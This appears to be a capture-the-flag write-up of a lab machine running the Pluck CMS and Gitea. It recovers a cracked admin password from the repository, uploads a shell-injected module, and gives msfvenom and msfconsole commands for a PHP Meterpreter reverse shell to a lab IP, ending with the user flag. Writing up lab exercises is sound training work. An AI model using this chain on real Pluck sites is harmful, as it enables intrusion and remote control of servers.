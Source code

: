 ## Exploit Summary

### Port 80
- **Service:** Pluck application
- **Initial Analysis:** No immediate exploit found

### Port 3000
- **Service:** Git repository server powered by Gitea
- **Findings:** Repository of the application on port 80

### Repository Analysis
- **File:** `pass.php`
- **Hash Found:** `d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`
- **Hash Type:** SHA-512
- **Plaintext String:** `iloveyou1`
- **Possible Use:** Master admin password

### Exploitation Steps

1. **Login to Pluck Platform:**
   - Used `iloveyou1` to login as admin.

2. **Module Upload:**
   - Downloaded a test module.
   - Injected a shell into the module.
   - Uploaded the module to gain access as `www-data` user.

3. **Privilege Escalation:**
   - **User Flag:**
     - Found `user.txt` in `/home/junior`, but lacked read permission.

4. **Backdoor Creation:**
   - **Msfvenom:**
     ```shell
     msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.27 LPORT=9001 -f raw -o shell.php
     ```
   - **Msfconsole:**
     ```shell
     set LHOST 10.10.14.27
     set LPORT 9001
     set PAYLOAD php/meterpreter/reverse_tcp
     exploit
     ```
   - **Execution:**
     - Accessed: `http://greenhorn.htb/data/modules/simple/shell.php`
     - Successfully executed the backdoor exploit.

### Post Exploitation

- **Recon:**
  - **Metasploit Local Exploit Suggester:**
    - Command: `multi/recon/local_exploit_suggester`
    - Result: No useful exploits found.
  - **LinPEAS Script:**
    - Ran the script, but no valuable information was found.

- **User Privilege Escalation:**
  - Used Pluck admin password (`iloveyou1`) to switch to `junior` user:
    ```shell
    su - junior
    ```
  - Successfully switched to `junior` user.

- **Retrieve User Flag:**
  - Command:
    ```shell
    cd /home/junior
    cat user.txt
    ```
  - User flag: `6a726a101baa431fced0240a747825af`
